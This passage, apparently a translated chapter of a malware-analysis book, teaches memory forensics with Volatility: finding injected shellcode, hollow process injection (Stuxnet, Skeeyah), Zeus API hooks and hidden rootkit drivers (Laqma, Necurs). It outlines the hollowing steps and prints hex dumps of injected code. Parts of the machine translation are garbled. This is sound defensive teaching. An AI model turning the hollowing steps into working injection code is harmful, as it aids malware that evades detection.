有时，显示内存区域的内容可能不足以识别恶意代码。当shell代码被注入时尤其如此，在这种情况下，您需要反汇编内容。例如，如果您使用db命令转储地址0x03110000(上面vadinfo输出的第二个条目)的内容，您将看到以下十六进制转储。从输出来看，很难判断这是否是恶意代码:
```
>>> db(0x03110000)
0x03110000 64 a1 18 00 00 00 c3 55 8b ec 83 ec 54 83 65 fc d......U....T.e. 0x03110010 00 64 a1 30 00 00 00 8b 40 0c 8b 40 1c 8b 40 08 .d.0....@..@..@. 0x03110020 68 34 05 74 78 50 e8 83 00 00 00 59 59 89 45 f0 h4.txP.....YY.E. 0x03110030 85 c0 74 75 8d 45 ac 89 45 f4 8b 55 f4 c7 02 6b ..tu.E..E..U...k 0x03110040 00 65 00 83 c2 04 c7 02 72 00 6e 00 83 c2 04 c7 .e......r.n.....
```



如果您怀疑内存区域包含shell代码，可以使用dis命令
在volshell中，在给定地址反汇编代码。从下面代码中显示的反汇编输出中，您可以看出shell代码已经注入到这个内存区域，因为它包含有效的CPU指令。为了验证内存区域是否包含任何恶意代码，您需要进一步分析它，以确定上下文。这是因为注入的代码看起来也类似于合法代码:


### 1.3 转储进程内存区域
在确定进程内存中注入的代码(PE文件或shellcode)之后，您可能希望将其转储到磁盘以进行进一步分析(用于提取字符串、执行YARA扫描或进行反汇编)。要转储由VAD节点描述的内存区域，可以使用vaddump插件。例如，如果希望转储地址为0x03110000的包含shell代码的内存区域，可以提供-b(——base)选项，后跟基址，如下所示。如果你没有指定-b(——base)选项，插件会将所有内存区域转储到单独的文件中:
```
$ python vol.py -f spyeye.vmem --profile=Win7SP1x86 vaddump -p 1608 -b 0x03110000 -D dump/
Volatility Foundation Volatility Framework 2.6
Pid Process Start End Result
   ---- -----------  ---------- ---------- ---------------------------
   1608 explorer.exe 0x03110000 0x03110fff
   dump/explorer.exe.1deb4780.0x03110000-0x03110fff.dmp
```
> 一些恶意软件程序使用隐形技术来绕过检测。例如，恶意程序可能会注入PE文件，并在PE文件加载到内存后清除PE头。在这种情况下，如果你正在查看十六进制转储，它不会给你任何PE文件存在的指示;可能需要一定程度的手工分析来验证代码。在一篇题为“用Volatility恢复CoreFlood 二进制文件”(http://mnin.blogspot/2008/11/recovering-coreflood-binaries-with.html)的博客文章中提到了这样一个恶意软件样本的例子。

### 1.4 使用malfind检测注入的代码
到目前为止，我们已经了解了如何使用vadinfo手动识别可疑的内存区域。您还了解了如何使用vaddump转储一个内存区域。还有另一个名为malfind的Volatility插件，它根据内存内容和前面介绍的VAD特征自动识别可疑内存区域。在下面的示例中，当针对感染了SpyEye的内存映像运行malfind时，它会自动识别可疑的内存区域(包含PE文件和shellcode)。除此之外，它还显示十六进制转储和从基地址开始的反汇编。如果不指定-p(——pid)选项，malfind将识别系统上运行的所有进程的可疑内存范围:




```
$ python vol.py -f spyeye.vmem --profile=Win7SP1x86 malfind -p 1608 Volatility Foundation Volatility Framework 2.6
Process: explorer.exe Pid: 1608 Address: 0x3120000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 5, MemCommit: 1, PrivateMemory: 1, Protection: 6
0x03120000 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ.............. 0x03120010 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0x03120020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x03120030 00 00 00 00 00 00 00 00 00 00 00 00 d8 00 00 00 ................
0x03120000 4d
0x03120001 5a
0x03120002 90
0x03120003 0003  ADD [EBX], AL
0x03120005 0000  ADD [EAX], AL
Process: explorer.exe Pid: 1608 Address: 0x3110000 Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
DEC EBP
POP EDX
NOP
Flags: CommitCharge: 1, MemCommit: 1, PrivateMemory: 1, Protection: 6
0x03110000 64 a1 18 00 00 00 c3 55 8b ec 83 ec 54 83 65 fc d......U....T.e.
0x03110010 00 64 a1 30 00 00 00 8b 40 0c 8b 40 1c 8b 40 08 .d.0....@..@..@.
0x03110020 68 34 05 74 78 50 e8 83 00 00 00 59 59 89 45 f0 h4.txP.....YY.E.
0x03110030 85 c0 74 75 8d 45 ac 89 45 f4 8b 55 f4 c7 02 6b ..tu.E..E..U...k
0x03110000 64a118000000  MOV EAX, [FS:0x18]
0x03110006 c3
0x03110007 55
0x03110008 8bec
0x0311000a 83ec54
0x0311000d 8365fc00
0x03110011 64a130000000  MOV EAX, [FS:0x30]
```
### 2. 调查伪进程注入(Hollow Process Injection)
在前面介绍的代码注入技术中，恶意代码被注入到合法进程的进程地址空间中。伪进程注入(或进程空化)也是一种代码注入技术，但不同的是，在这种技术中，内存中合法进程的进程可执行文件被替换为恶意可执行文件。在讨论伪进程的检测之前，让我们先了解一下它是如何工作的。关于中空过程注入的详细信息在第8章代码注入和挂钩(章节)中介绍过。您还可以查看作者关于伪进程注入的演示和视频演示(https://cysinfo.com/7th-meetup-reversing-and-investigating-malware-evasive-tactics-hollow-process-injection/)，以便更好地理解这个主题。

#### 2.1 伪进程注入步骤
下面的步骤描述了恶意软件通常是如何执行进程伪装的。假设有两个进程A和B，此时，A进程是恶意进程，B进程是合法进程(也称为远程进程)，例如explorer.exe:
- 进程A以挂起的方式启动正常进程B。结果，进程B的可执行部分被加载到内存中，并且PEB(进程环境块)识别到合法进程的完整路径。PEB结构的ImageBaseAddress字段指向装载合法进程可执行文件的基地址。
- 进程A获得将注入远程进程的恶意可执行文件。这个可执行文件可以来自恶意软件进程的资源部分或来自磁盘上的文件。
- 进程A确定了合法进程B的基址，这样它就可以解除合法进程的可执行部分的映射。恶意软件可以通过读取PEB来确定基址(在我们的例子中，是PEB.imagebaseaddress)。
- 然后，进程A释放合法进程的可执行部分。然后进程A将合法进程B中的内存分配为读，写、执行权限。这个内存分配通常是在与之前加载可执行文件的地址相同。
- 然后进程A将恶意可执行文件的PE头和PE段写入到已分配的内存中。
- 然后进程A将挂起的线程的起始地址更改为注入的可执行文件的入口点的地址，并恢复正常进程挂起的线程。因此，合法进程现在开始执行恶意代码。

Stuxnet就是这样一种恶意软件，它使用上述步骤执行伪进程注入。具体来说，Stuxnet在挂起模式下创建合法的lasss.exe进程。因此，lasss.exe通过PAGE_EXECUTE_WRITECOPY(WCX)保护加载到内存中。此时(在空化之前)，PEB和VAD都包含关于lasss.exe的内存保护、基址和完整路径的相同元数据信息。然后，Stuxnet将合法的进程可执行文件(lasss.exe)挖空，并在之前加载lasss.exe的同一区域内，用PAGE_EXECUTE_READWRITE (RWX)保护分配一个新的内存，然后在分配的内存中注入恶意的可执行文件并恢复挂起的线程。由于掏空了进程可执行文件，导致VAD和PEB之间的进程路径信息存在差异，即PEB中的进程路径仍然包含lasss.exe的完整路径，而VAD不显示完整路径。此外，在空化之前(WCX)和空化之后(RWX)存在内存保护差异。下面的图表可以帮助你可视化空心化之前发生了什么，以及空心化过程后在PEB和VAD中产生的差异:


> 使用内存取证技术对震网病毒进行了完整的分析，Michael Hale Ligh在下面的博客文章中写道:http://mnin.blogspot.in/2011/06/examining-stuxnets-footprint-in-memory.html。

#### 2.2 识别伪进程注入
为了检测中伪进程注入，您可以寻找PEB和VAD之间产生的差异，以及内存保护差异。您还可以查找父子流程关系中的差异。在下面的Stuxnet示例中，您可以看到系统上运行着两个lasss.exe进程。第一个lasss.exe进程(pid 708)有一个父进程winlogon.exe (pid 652)，而第二个lasss.exe进程(pid 1732)有一个终止的父进程(pid 1736)。根据进程信息，你可以判断pid为1732的lasss.exe是可疑的进程，因为在一个干净的系统上，winlogon.exe将是lasss.exe在pre-Vista机器上的父进程，wininit.exe将是lasss.exe在Vista和以后的系统上的父进程:
```
$ python vol.py -f stux.vmem --profile=WinXPSP3x86 pslist | grep -i lsass Volatility Foundation Volatility Framework 2.6
0x818c1558 lsass.exe 708 652 24 343 0 0 2016-05-10 06:47:24+0000 0x81759da0 lsass.exe 1732 1736 5 86 0 0 2018-05-12 06:39:42
$ python vol.py -f stux.vmem --profile=WinXPSP3x86 pslist -p 652 Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
---------- ------------ ---- ---- ---- ---- --- ------ ------------------ 0x818321c0 winlogon.exe 652 332 23 521 0 0 2016-05-10 06:47:24
$ python vol.py -f stux.vmem --profile=WinXPSP3x86 pslist -p 1736
  Volatility Foundation Volatility Framework 2.6
   ERROR : volatility.debug : Cannot find PID 1736. If its terminated or
   unlinked, use psscan and then supply --offset=OFFSET

```
如前所述，您可以通过比较PEB和VAD结构来检测伪进程。dlllist插件从PEB获取模块信息，显示lasss.exe (pid 1732)的完整路径和它加载的base地址(0x01000000):
```
 lsass.exe pid: 1732
   Command line : "C:\WINDOWS\\system32\\lsass.exe"
   Service Pack 3
Base Size Load Count Path
---------- ------- ------ ------------------------------- 0x01000000 0x6000 0xffff C:\WINDOWS\system32\lsass.exe 0x7c900000 0xaf000 0xffff C:\WINDOWS\system32\ntdll.dll 0x7c800000 0xf6000 0xffff C:\WINDOWS\system32\kernel32.dll 0x77dd0000 0x9b000 0xffff C:\WINDOWS\system32\ADVAPI32.dll [REMOVED]
```
ldrmodules插件依赖于内核中的VAD，它不会向lasss.exe显示完整的路径名称。由于恶意软件解除了lasss.exe进程可执行部分的映射，完整路径名不再与地址0x01000000关联:
```
$ python vol.py -f stux.vmem --profile=WinXPSP3x86 ldrmodules -p 1732 Volatility Foundation Volatility Framework 2.6
Pid Process Base InLoad InInit InMem MappedPath
---- --------- ---------- ------ ------ ------ ---------------------------- [REMOVED]
1732 lsass.exe 0x7c900000 True True True \WINDOWS\system32\ntdll.dll 1732 lsass.exe 0x71ad0000 True True True \WINDOWS\system32\wsock32.dll 1732 lsass.exe 0x77f60000 True True True \WINDOWS\system32\shlwapi.dll 1732 lsass.exe 0x01000000 True False True
   1732 lsass.exe 0x76b40000 True  True   True   \WINDOWS\system32\winmm.dll
   [REMOVED]

```
由于恶意软件通常在空化之后和注入可执行文件之前以PAGE_EXECUTE_READWRITE权限分配内存，所以您可以寻找内存保护。malfind插件在可执行lasss.exe加载的同一地址(0x01000000)识别了可疑的内存保护:
```
Process: lsass.exe Pid: 1732 Address: 0x1000000 Vad Tag: Vad Protection: PAGE_EXECUTE_READWRITE Flags: CommitCharge: 2, Protection: 6
0x01000000 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ.............. 0x01000010 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0x01000020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x01000030 00 00 00 00 00 00 00 00 00 00 00 00 d0 00 00 00 ................
   0x01000000 4d DEC EBP
   0x01000001 5a POP EDX
   0x01000002 90 NOP
```
如果希望将malfind检测到的可疑内存区域转储到磁盘，可以在-D后面指定将转储所有可疑内存区域的目录名称。

#### 2.3 进程注入变种
在下面的例子中，我们将看到一个名为Skeeyah的恶意软件，它以一种略微不同的方式执行伪进程注入。这是在第8章代码注入和挂钩(第3.6节中空过程注入)中介绍的同一个示例。以下是Skeeyah所执行的步骤:
- 它以挂起模式启动svchost.exe进程。作为一个
结果，svchost.exe被加载到内存中(在本例中，地址为0x1000000)。
- 它通过读取PEB来确定svchost.exe的基址。ImageBaseAddress，然后释放svchost.exe的可执行部分。
- 它不是在之前加载svchost.exe的同一区域分配内存(0x1000000)，而是在不同的地址0x00400000，具有读、写和执行权限。
- 然后覆盖PEB。svchost.exe进程的imagebaseaddress，带有新分配的地址0x00400000。这会将PEB中的svchost.exe的基址从0x1000000更改为0x00400000(其中包含注入的可执行文件)。
- 然后，它将挂起的线程的起始地址更改为注入的可执行文件的入口点的地址，并恢复线程。

下面的截图显示了空化前后的差异。具体来说，空化后的PEB认为svchost.exe在0x00400000处加载。之前表示svchost.exe(加载在0x1000000)的VAD节点不再存在，因为当恶意软件掏空svchost.exe进程可执行文件时，VAD树中删除了该节点的条目:


要检测伪进程的这种变化，可以遵循相同的方法。根据伪进程的执行方式，结果会有所不同。进程列表显示了svchost.exe进程的多个实例，这是正常的。除了最后一个svchost.exe (pid 1824)之外，所有svchost.exe进程都有一个父进程services.exe (pid 696)。在一个干净的系统中，所有svchos.exe进程都是由services.exe启动的。当您查看svchost.exe (pid 1824)的父进程时，您可以看到它的父进程已经终止。根据进程信息，可以看出最后一个svchost.exe (pid 1824)是可疑的:
```
$ python vol.py -f skeeyah.vmem --profile=WinXPSP3x86 pslist | grep -i svchost
Volatility Foundation Volatility Framework 2.6
0x815cfaa0 svchost.exe 876 696 20 202 0 0 2016-05-10 06:47:25 0x818c5a78 svchost.exe 960 696 9 227 0 0 2016-05-10 06:47:25 0x8181e558 svchost.exe 1044 696 68 1227 0 0 2016-05-10 06:47:25 0x818c7230 svchost.exe 1104 696 5 59 0 0 2016-05-10 06:47:25 0x81743da0 svchost.exe 1144 696 15 210 0 0 2016-05-10 06:47:25 0x817ba390 svchost.exe 1824 1768 1 26 0 0 2016-05-12 14:43:43
$ python vol.py -f skeeyah.vmem --profile=WinXPSP3x86 pslist -p 696 Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
---------- ------------ --- ---- ---- ---- ---- ------ -------------------- 0x8186c980 services.exe 696 652 16 264 0 0 2016-05-10 06:47:24
$ python vol.py -f skeeyah.vmem --profile=WinXPSP3x86 pslist -p 1768 Volatility Foundation Volatility Framework 2.6
ERROR : volatility.debug : Cannot find PID 1768. If its terminated or unlinked, use psscan and then supply --offset=OFFSET
```
dlllist插件(依赖于PEB)显示svchost.exe (pid 1824)的完整路径，并报告base地址为0x00400000。
```
$ python vol.py -f skeeyah.vmem --profile=WinXPSP3x86 dlllist -p 1824 Volatility Foundation Volatility Framework 2.6 ************************************************************************ svchost.exe pid: 1824
   Command line : "C:\WINDOWS\system32\svchost.exe"
   Service Pack 3
   Base       Size    LoadCount  Path
   ---------- ------- ---------- ----------------------------------
0x00400000 0x7000   0xffff
0x7c900000 0xaf000  0xffff
0x7c800000 0xf6000  0xffff
[REMOVED]
C:\WINDOWS\system32\svchost.exe
C:\WINDOWS\system32\ntdll.dll
C:\WINDOWS\system32\kernel32.dll

```


另一方面，ldrmodules插件(依赖于内核中的VAD)并没有显示svchost.exe的任何条目，如下图所示:


malfind显示在0x00400000地址存在一个PE文件，其中存在一个可疑的PAGE_EXECUTE_READWRITE内存保护，这表明这个可执行文件被注入了，并且没有正常加载:

```

$ python vol.py -f skeeyah.vmem --profile=WinXPSP3x86 malfind -p 1824 Volatility Foundation Volatility Framework 2.6
Process: svchost.exe Pid: 1824 Address: 0x400000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
   Flags: CommitCharge: 7, MemCommit: 1, PrivateMemory: 1, Protection: 6
0x00400000 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ.............. 0x00400010 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@....... 0x00400020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x00400030 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 00 ................
   0x00400000 4d DEC EBP
   0x00400001 5a POP EDX
   [REMOVED]
   
```


> 攻击者使用不同的空心工艺注射来绕过、偏转和转移司法分析。关于这些规避技术如何工作以及如何使用自定义Volatility性插件检测它们的详细信息，请观看作者的黑帽演讲:“恶意软件作者不想让你知道的东西-规避伪进程注入”(https://youtu.be/9L9I1T5QDg4)。或者，您可以阅读作者的博客文章在以下链接:https://cysinfo.com/detecting-deception-hollow-techniques/

### 3. 检测API钩子
在将恶意代码注入目标进程后，恶意软件可以在目标进程发出的API调用时钩住，以控制其执行路径，并将其重新定位到恶意代码。关于钩子技术的细节已经在第8章，代码注入和钩子(钩子技术一节)中介绍过了。在本节中，我们将主要关注使用内存取证来检测这种挂钩技术。要识别进程和内核内存中的API钩子，你可以使用apihooks Volatility插件。在下面Zeus bot的例子中，一个可执行文件被注入到explorer.exe进程的内存地址0x2c70000，由malfind插件检测到:
```
$ python vol.py -f zeus.vmem --profile=Win7SP1x86 malfind 
Process: explorer.exe Pid: 1608 Address: 0x2c70000
Vad Tag: Vad Protection: PAGE_EXECUTE_READWRITE
   Flags: Protection: 6
0x02c70000 4d 5a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 MZ.............. 0x02c70010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x02c70020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................ 0x02c70030 00 00 00 00 00 00 00 00 00 00 00 00 d8 00 00 00 ................
```
在下面的输出中，apihooks插件在用户模式的API httpendrequestA(在wininet.dll中)中检测钩子。然后，被钩住的API被重定向到地址0x2c7ec48(钩子地址)。钩子地址在注入的可执行文件(钩子模块)的地址范围内。钩子模块的名称是未知的，因为它通常不是从磁盘加载的(而是注入的)。具体来说，在API函数httpendrequesta的起始地址(0x753600fc)，有一个跳转指令，它将httpendrequesta的执行流重定向到注入的可执行文件中的地址0x2c7ec48:
```
$ python vol.py -f zeus.vmem --profile=Win7SP1x86 apihooks -p 1608

Hook mode: Usermode
Hook type: Inline/Trampoline
Process: 1608 (explorer.exe)
Victim module: wininet.dll (0x752d0000 - 0x753c4000) Function: wininet.dll!HttpSendRequestA at 0x753600fc Hook address: 0x2c7ec48
Hooking module: <unknown>
Disassembly(0):
0x753600fc e947eb918d
0x75360101 83ec38
0x75360104 56
0x75360105 6a38
0x75360107 8d45c8
JMP 0x2c7ec48
SUB ESP, 0x38
PUSH ESI
PUSH 0x38
LEA EAX, [EBP-0x38]
```


### 4. 内核模式rootkit
恶意程序(如rootkit)可以加载内核驱动程序以内核模式运行代码。一旦它在内核空间中运行，它就可以访问内部操作系统代码，并可以监视系统事件，通过修改内部数据结构、钩子函数和修改调用表来逃避检测。内核模式驱动程序的扩展名通常是.sys，它驻留在%windir%\system32\drivers中。一个内核驱动通常是通过创建一个内核驱动服务类型的服务来加载的(如第7章，恶意软件的功能和持久性，在服务部分)。

Windows实现了各种安全机制，旨在防止在内核空间中执行未经授权的代码。这使得rootkit很难安装内核驱动程序。在64位Windows上，Microsoft实现了内核模式代码签名(KMCS)，它要求对内核模式驱动程序进行数字签名，以便加载到内存中。另一种安全机制是内核补丁保护(KPP)，也被称为PatchGuard，它可以防止对核心系统组件、数据结构和调用表(如SSDT、IDT等)的修改。这些安全机制对大多数rootkit是有效的，但与此同时，这迫使攻击者想出先进的技术，允许他们安装未签名的驱动程序，并绕过这些安全机制。一种方法是安装Bootkit。Bootkit会感染系统启动过程的早期阶段，甚至在操作系统完全加载之前。另一种方法是利用内核或第三方驱动程序中的漏洞来安装无签名驱动程序。在本章的其余部分，我们将假设攻击者已经成功安装了内核模式驱动程序(使用Bootkit或通过利用内核级漏洞)，我们将重点讨论内核内存取证，其中包括识别恶意驱动程序。

在一个干净的windows系统上，您会发现数百个内核模块，因此找到恶意内核模块需要一些工作。在下面的部分中，我们将研究一些用于定位和提取恶意内核模块的常用技术。我们将从列出内核模块开始。
### 5. 清单内核模块
要列出内核模块，可以使用modules插件。这个插件依赖于行走双向链表的元数据结构(KLDR_DATA_TABLE_ENTRY)指出PsLoadedModuleList(这种技术类似于行走_EPROCESS双向链表的结构,如第十章所述,狩猎恶意软件使用内存取证,在理解ActiveProcessLinks部分)。清单内核模块可能并不总是帮助你识别恶意内核驱动程序的数以百计的加载内核模块,但是它可以用于发现一个可疑的指标如一个内核驱动程序有一个奇怪的名字,或从非标准内核模块加载路径或临时路径。内核模块的模块插件列表的顺序加载,这意味着如果一个rootkit司机最近安装了,你很可能会发现模块的列表,提供模块不是隐藏和系统内存映像收购之前没有重启。

在下面的例子中，一个被Laqma rootkit感染的内存映像中，模块列表显示了Laqma的恶意驱动程序lanmandrv.sys，位于列表的最后，从C:\Windows\System32目录运行，而大多数其他内核驱动程序是从SystemRoot\System32\drivers加载的。从清单中,您还可以看到,等核心操作系统组件NT内核模块(ntkrnlpa.exe或ntoskrnl.exe)和硬件抽象层(hal.dll)加载第一,紧随其后的是引导驱动(比如kdcom.dll)在引导时自动启动,然后跟着其他驱动:
```
$ python vol.py -f laqma.vmem --profile=Win7SP1x86 modules
Volatility Foundation Volatility Framework 2.6
Offset(V) Name Base Size File
---------- ------------ ---------- -------- ------------------------------ ---
 0x84f41c98 ntoskrnl.exe 0x8283d000 0x410000
\SystemRoot\system32\ntkrnlpa.exe
0x84f41c20 hal.dll      0x82806000 0x37000
\SystemRoot\system32\halmacpi.dll
0x84f41ba0 kdcom.dll    0x80bc5000 0x8000
[REMOVED]
0x86e36388 srv2.sys 0xa46e1000 0x4f000 \SystemRoot\System32\DRIVERS\srv2.sys 0x86ed6d68 srv.sys 0xa4730000 0x51000 \SystemRoot\System32\DRIVERS\srv.sys 0x86fe8f90 spsys.sys 0xa4781000 0x6a000 \SystemRoot\system32\drivers\spsys.sys 0x861ca0d0 lanmandrv.sys 0xa47eb000 0x2000 \??\C:\Windows\System32\lanmandrv.sys
\SystemRoot\system32\kdcom.dll
```


由于浏览双链接列表容易受到DKOM攻击(在第10章，使用内存取证查找恶意软件，4.2.1节直接内核对象操作(DKOM)中描述)，通过解除链接可以从列表中隐藏内核驱动程序。为了克服这个问题，您可以使用另一个名为modscan的插件。modscan插件依赖于池标签扫描方法(在第10章，使用内存取证来捕获恶意软件，4.2.2理解池标签扫描)。换句话说，它扫描物理地址空间，寻找与内核模块相关的池标记(MmLd)。通过池标签扫描，可以检测到未链接的模块和之前加载的模块。modscan插件以它们在物理地址空间中被找到的顺序显示内核模块，而不是基于它们被加载的顺序。下面以Necurs rootkit为例，modscan插件显示的恶意内核驱动程序(2683608180e436a1.sys)的名称完全由十六进制字符组成:
```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 modscan Volatility Foundation Volatility Framework 2.6
Offset(P)          Name                 Base       Size   File
------------------ -------------------- ---------- ------ --------
   0x0000000010145130 Beep.SYS
   \SystemRoot\System32\Drivers\Beep.SYS
   0x000000001061bad0 secdrv.SYS
   \SystemRoot\System32\Drivers\secdrv.SYS
   0x00000000108b9120 rdprefmp.sys
   \SystemRoot\system32\drivers\rdprefmp.sys
   0x00000000108b9b10 USBPORT.SYS          0x9711e000 0x4b000
   \SystemRoot\system32\DRIVERS\USBPORT.SYS
   0x0000000010b3b4a0 rdbss.sys            0x96ef6000 0x41000
   \SystemRoot\system32\DRIVERS\rdbss.sys
[REMOVED]
0x000000001e089170 2683608180e436a1.sys 0x851ab000 0xd000 \SystemRoot\System32\Drivers\2683608180e436a1.sys 0x000000001e0da478 usbccgp.sys 0x9700b000 0x17000 \SystemRoot\system32\DRIVERS\usbccgp.sys

```


当您运行模块插件针对感染Necurs rootkit的内存映像时，它不会显示恶意驱动程序(2683608180e436a1.sys):
```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 modules | grep 2683608180e436a1
```
由于modscan使用池标记扫描方法，它可以检测未加载的模块(假设内存没有被覆盖)，因此恶意驱动程序2683608180e436a1是有可能的。Sys被迅速加载和卸载，或者被隐藏起来。要确认驱动程序是被卸载还是被隐藏，你可以使用unloaddmodules插件，它会显示被卸载的模块列表以及每个模块被卸载的时间。在下面的输出中，无恶意驱动,2683608180e436a1.Sys，告诉你这个驱动程序没有被卸载，它是隐藏的。从下面的输出中，您可以看到另一个恶意驱动程序2b9fb.Sys，以前是快速加载和卸载的(没有出现在modules和modscan清单中，如下面的输出所示)。unloaddmodules插件可以在检测rootkit试图快速加载和卸载驱动的过程中被证明是有用的，这样它就不会出现在模块列表中:
```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 unloadedmodules Volatility Foundation Volatility Framework 2.6
Name StartAddress EndAddress Time
----------------- ------------ ---------- ------------------- dump_dumpfve.sys 0x00880bb000 0x880cc000 2016-05-11 12:15:08 dump_LSI_SAS.sys 0x00880a3000 0x880bb000 2016-05-11 12:15:08 dump_storport.sys 0x0088099000 0x880a3000 2016-05-11 12:15:08 parport.sys 0x0094151000 0x94169000 2016-05-11 12:15:09 2b9fb.sys 0x00a47eb000 0xa47fe000 2018-05-21 10:57:52

```

```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 modules | grep -i 2b9fb.sys
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 modscan | grep -i 2b9fb.sys
```
#### 5.1 使用驱动程序列出内核模块
列出内核模块的另一种方法是使用driverscan插件，如下面的输出所示。driverscan插件从名为DRIVER_OBJECT的结构中获取与内核模块相关的信息。具体来说，driverscan插件使用池标记扫描来查找物理地址空间中的驱动程序对象。第一列Offset(P)指定了发现DRIVER_OBJECT结构的物理地址，第二列Start包含模块的基址，Driver Name列显示了Driver的名称。例如，驱动程序的名称\driver\Beep与Beep.Sys，最后一项显示恶意
驱动程序，\Driver\2683608180e436a1，与Necurs rootkit关联。driverscan插件是列出内核模块的另一种方式，当rootkit试图隐藏模块和modscan插件时，它会很有用:

```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 driverscan
Volatility Foundation Volatility Framework 2.6
Offset(P) Start Size Service Key Name Driver Name ------------------ -------- ------- ----------- ------ ----------- 0x00000000108b9030 0x88148000 0x8000 RDPENCDD RDPENCDD \Driver\RDPENCDD 0x00000000108b9478 0x97023000 0xb7000 DXGKrnl DXGKrnl \Driver\DXGKrnl 0x00000000108b9870 0x88150000 0x8000 RDPREFMP RDPREFMP \Driver\RDPREFMP 0x0000000010b3b1d0 0x96ef6000 0x41000 rdbss rdbss \FileSystem\rdbss 0x0000000011781188 0x88171000 0x17000 tdx tdx \Driver\tdx 0x0000000011ff6a00 0x881ed000 0xd000 kbdclass kbdclass \Driver\kbdclass 0x0000000011ff6ba0 0x880f2000 0x7000 Beep Beep \Driver\Beep [REMOVED]
   0x000000001e155668 0x851ab000 0xd000 2683608180e436a1 26836...36a1
   \Driver\2683608180e436a1
```


要列出使用内核调试器(Windbg)的内核模块，请如下所示使用lm k命令。对于详细输出，可以使用lm kv命令:
```
kd> lm k
start end module name
80bb4000 80bbc000 kdcom (deferred)
82a03000 82a3a000 hal (deferred)
82a3a000 82e56000 nt (pdb symbols)
8b200000 8b20e000 WDFLDR (deferred)
8b20e000 8b22a800 vmhgfs (deferred)
8b22b000 8b2b0000 mcupdate_GenuineIntel (deferred) 8b2b0000 8b2c1000 PSHED (deferred)
8b2c1000 8b2c9000 BOOTVID (deferred)
8b2c9000 8b30b000 CLFS (deferred)
[REMOVED]
```
识别出恶意内核模块后，可以使用moddump插件将其从内存转储到磁盘。要将模块转储到磁盘，您需要指定模块的基本地址，您可以从modules、modscan或driverscan插件获得该基本地址。以将Necurs rootkit的恶意驱动通过其基址转储到磁盘为例，如下所示:

```
$ python vol.py -f necurs.vmem --profile=Win7SP1x86 moddump -b 0x851ab000 - D dump/
Volatility Foundation Volatility Framework 2.6
Module Base Module Name Result
   -----------  --------------    ------
   0x0851ab000    UNKNOWN         OK: driver.851ab000.sys
```
### 6. I/O处理
在讨论driverscan插件时，我提到过driverscan从DRIVER_OBJECT结构中获取模块信息。你想知道DRIVER_OBJECT结构是?这一点很快就会清楚。在本节中，您将了解用户模式和内核模式组件之间的交互、设备驱动程序的角色以及它与I/O管理器的交互。通常，一个rootkit由一个用户模式组件(EXE或DLL)和一个内核模式组件(设备驱动程序)组成。rootkit的用户模式组件使用特定的机制与内核模式组件通信。从取证的角度来看，必须了解这些通信的工作方式以及所涉及的组件。本节将帮助您理解通信机制，并为接下来的主题奠定基础。

让我们试着理解当用户模式应用程序执行输入/输出(I/O)操作时发生了什么，以及在高级别上如何处理它。在讨论在第8章API调用流时,代码注入和连接(在Windows API调用流部分),我使用一个用户模式应用程序的示例使用WriteFile () API执行写操作,而最终调用NtWriteFile()系统服务程序在内核中执行(ntoskrnl.exe),然后将请求定向到I/O管理器，然后I/O管理器请求设备驱动程序执行I/O操作。在这里，我将再次详细讨论这个主题，重点是内核空间组件(主要是设备驱动程序和I/O管理器)。下面的图表说明了写请求的流程(其他类型的I/O请求，如read类似;它们只是使用了不同的api):

以下几点讨论了设备驱动程序和I/O管理器在高级别上的角色:
1. 设备驱动程序通常创建一个或多个设备，并指定它可以为该设备处理什么类型的操作(打开、读取和写入)。它还指定处理这些操作的例程的地址。这些例程称为分派例程或IRP处理程序。
2. 在创建设备之后，驱动程序会发布该设备，以便用户模式应用程序可以访问它。
3. 用户模式应用程序可以使用API调用，如CreateFile，来打开处理发布的设备，并使用ReadFile和WriteFile API对设备进行读写等I/O操作。用于对文件进行I/O操作的api(如CreateFile、ReadWrite、WriteFile)也适用于设备。这是因为设备被视为一个虚拟文件。
4. 当用户模式应用程序在发布的设备上执行I/O操作时，请求被路由到I/O管理器。I/O管理器通过传递IRP (I/O请求包)来确定处理设备的驱动程序，并请求驱动程序完成操作。IRP是一种数据结构，它包含关于执行什么操作以及I/O操作所需的缓冲区的信息。

驱动程序读取IRP，验证它，并在通知I/O管理器操作的状态之前完成所请求的操作。然后，I/O管理器将状态和数据返回给用户应用程序。

在这个阶段，前面的几点可能对您来说很陌生，但不要因此而气馁:当您完成这一部分时，您就会清楚了。接下来，我们将研究设备驱动程序的角色，然后是I/O管理器的角色。

#### 6.1 设备驱动程序的角色
